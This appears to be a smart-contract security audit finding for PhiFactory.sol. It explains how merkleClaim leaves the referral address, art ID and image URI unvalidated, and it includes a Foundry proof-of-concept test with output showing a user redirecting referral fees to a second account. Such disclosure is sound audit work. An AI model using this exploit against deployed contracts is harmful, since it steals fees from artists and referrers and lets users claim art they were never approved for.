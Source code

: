 ## [M] Lack of data validation when users are claiming their art allows malicious user to bypass signature/merkle hash to provide unapproved `ref_`, `artId_` and `imageURI`

In the file `PhiFactory.sol`, the lack of checks in `merkleClaim` allows malicious users to bypass the hash check to pass in their own parameter of choice. The 3 variables that could possibly be manipulated (`referral`, `artId` and `imageURI`) and their impact will be each discussed below.

### Missing `ref_` and `artId_` in validation.

As we can see in [`merkleClaim`](relative_path_091409:src/PhiFactory.sol#L362-L375), `address ref_` and `uint256 artId_` is decoded from `encodeData_` which is simply a bytes data type passed into the function parameter by the user.

```solidity
  (address minter_, address ref_, uint256 artId_) = abi.decode(encodeData_, (address, address, uint256));
  PhiArt storage art = arts[artId_];
  ......
  if (
      !MerkleProofLib.verifyCalldata(
          proof_, credMerkleRootHash, keccak256(bytes.concat(keccak256(abi.encode(minter_, leafPart_))))
      )
  ) {
      revert InvalidMerkleProof();
  }
  ......
```

Observing the line where the merkle hash is cross-checked:

```solidity
!MerkleProofLib.verifyCalldata( proof_, credMerkleRootHash, keccak256(bytes.concat(keccak256(abi.encode(minter_, leafPart_)))) )
```

It becomes clear that **only** `minter_` from `encodeData_` is checked, leaving `ref_` and `artId_` to whatever values passed by the user.

By the way, **both** `ref_` and `artId_` are **explicitly checked in the `signatureClaim` function**:

```solidity
function signatureClaim(.....) external payable whenNotPaused {
  (uint256 expiresIn_, address minter_, address ref_, address verifier_, uint256 artId_,, bytes32 data_) =
      abi.decode(encodeData_, (uint256, address, address, address, uint256, uint256, bytes32));
      
  if (expiresIn_ <= block.timestamp) revert SignatureExpired();
  if (_recoverSigner(keccak256(encodeData_), signature_) != phiSignerAddress) revert AddressNotSigned();
  .....
}
```

Hence, to forge `ref_` and `artId_`, malicious users will have to use `merkleClaim` instead of `signatureClaim`.

**Impact of forging `ref_`**

- Malicious users can pass in their own other account address as `ref_`, successfully stealing the referral fee from the real `ref_` or the artist(who will receive the referral fee if `ref_` is set to null).
- Suppose Alice has 2 accounts, when she calls `merkleClaim` to claim on `account 1`, she can pass in `account 2` as the `ref_` to illegally steal the referral fees to offset the cost of minting.
- The reason why Alice has to pass in `account 2` instead of `account 1` as the `ref_` is because in `PhiRewards.sol`'s `depositRewards`, referral has to be different from minter address in order for Alice to receive the referral fees.

**Impact of forging `artId_`**

- Unlike `signatureClaim` which checks `artId_` explicitly, `merkleClaim` only verifies `minter_` and `leafPart_` to the credId's merkle root hash.
- Since a Cred can have multiple art linked to it, this becomes a problem.
- Suppose `Cred A` has `Art 1` and `Art 2`.
- Now, Alice got approval to claim `Art 1`.
- If the art's verification type was set to "SIGNATURE" and Alice had to call `signatureClaim`, Alice would **only** be able to claim `Art 1` with that approval signature.
- However if the art's verification type was "MERKLE" instead, when she calls `merkleClaim`, she will be able to claim `Art 2` with only approval for `Art 1` by passing the `artId_` of `Art 2`.

### Missing `imageURI` in validation

We can see in both `signatureClaim` [Line 330](relative_path_091409:src/PhiFactory.sol#L330) and `merkleClaim` [Line 355](relative_path_091409:src/PhiFactory.sol#L355), `imageURI` is passed into the function parameter rather than extracted from the signature and is not involved in the merkle hash check as well.

Since `imageURI` contains important information about the art details (such as location/directory). This could have a severe impact. When the malicious user is trying to claim an art that he has permission to, he could pass in an `imageURI` with the location directory of the picture image file pointing to another art which he does not have permission for.

The line `advancedTokenURI[tokenId_][to_] = imageURI_;` in `PhiNFT1155.sol` will also be set to an unapproved value. This will lead to undefined/unsupported behaviours when interacting with the smart contract regarding trying to render an user's art URI.

### Proof of concept

Add this function to `test/PhiFactory.t.sol:TestPhiFactory`:

```solidity
function test_claimHack() public {
  bytes32 expectedRoot = 0xe70e719557c28ce2f2f3545d64c633728d70fbcfe6ae3db5fa01420573e0f34b;
  bytes memory credData = abi.encode(1, owner, "MERKLE", 31_337, expectedRoot);
  bytes memory signCreateData = abi.encode(expiresIn, ART_ID_URL_STRING, credData);
  bytes32 createMsgHash = keccak256(signCreateData);
  bytes32 createDigest = ECDSA.toEthSignedMessageHash(createMsgHash);
  (uint8 cv, bytes32 cr, bytes32 cs) = vm.sign(claimSignerPrivateKey, createDigest);
  if (cv != 27) cs = cs | bytes32(uint256(1) << 255);
  phiFactory.createArt{ value: NFT_ART_CREATE_FEE }(
      signCreateData,
      abi.encodePacked(cr, cs),
      IPhiFactory.CreateConfig(participant, receiver, END_TIME, START_TIME, MAX_SUPPLY, MINT_FEE, false)
  );

  address Alice = participant; //Original file setup already deals `participant` enough ether to pay for mint fees
  address Alice_2 = address(0x123456); //Alice's account 2
  vm.startPrank(Alice);

  bytes32[] memory proof = new bytes32[](2);
  proof[0] = 0x0927f012522ebd33191e00fe62c11db25288016345e12e6b63709bb618d777d4;
  proof[1] = 0xdd05ddd79adc5569806124d3c5d8151b75bc81032a0ea21d4cd74fd964947bf5;
  address to = 0x1111111111111111111111111111111111111111;
  bytes32 value = 0x0000000000000000000000000000000003c2f7086aed236c807a1b5000000000;
  uint256 artId = 1;
  bytes memory data = abi.encode(artId, to, proof, Alice_2, uint256(1), value, IMAGE_URL2); // Within this line we have the freedom to decide artId, address of referral and the image URL

  bytes memory dataCompressed = LibZip.cdCompress(data);
  uint256 totalMintFee = phiFactory.getArtMintFee(artId, 1);


  phiFactory.claim{ value: totalMintFee }(dataCompressed);
  (, bytes memory response) = phiFactory.phiRewardsAddress().call(abi.encodeWithSignature("balanceOf(address)", Alice_2));
  uint256 balance = abi.decode(response, (uint256));
  console2.log("Alice_2: ", balance); //Alice successfully illegally receives referral fee through her second account
  vm.stopPrank();
}
```

Run `forge test --match-test test_claimHack -vv`:

```
Ran 1 test for test/PhiFactory.t.sol:TestPhiFactory
[PASS] test_claimHack() (gas: 1356967)
Logs:
  Alice_2:  50000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 14.83ms (4.52ms CPU time)
```

As you can see from the Code and the output, `Alice` managed to set the referral address to her second account (`Alice_2`), and received the referral reward of `0.00005 ether`; which will be a significant sum if Alice was minting high quantity of art, since rewards are calculated by `quantity_ * referralReward`

Alice also managed to **manipulate image_uri**, encoding `IMAGE_URL2` instead of `IMAGE_URL` into the function parameter. Both `IMAGE_URL2` and `IMAGE_URL` are different variables which are already declared in the original foundry test file.



